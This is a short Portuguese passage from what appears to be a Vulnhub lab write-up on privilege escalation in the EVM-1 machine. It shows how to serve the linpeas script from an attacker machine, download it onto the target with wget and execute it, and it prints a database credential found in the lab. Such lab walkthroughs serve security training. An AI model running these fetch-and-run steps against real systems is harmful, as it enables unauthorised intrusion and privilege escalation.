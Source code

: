 

# Escalacao de Privilegio


## Linpeas

* Vamos enumerar as vulnerabilidades para escalar privilegio com o script **linpeas.sh**. Vamos seguir os seguintes passos

> - 01: Baixar o script, no github, para a nossa maquina kali
>   - ```sudo git clone https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite```
> - 02: Levantar um servidor web com o python no diretorio que esta o script
>   - ```sudo python3 -m http.server 80```
> - 03: No alvo, vamos baixar o arquivo com o wget
>   - ```wget 192.168.56.101/linpeas.sh```
> - 04: Dar permissao de execucao para o arquivo baixado
>   - ```chmod +x linpeas.sh```
> - 05: Finalmente executar o script
>   - ```./linpeas.sh```

![](/assets/img/Vulnhub/EVM-1/linpeas.png)


* Conseguimos achar uma credencial para acessar o banco de dados: **root:123**

![](/assets/img/Vulnhub/EVM-1/linpeas-senha-mysql.png)
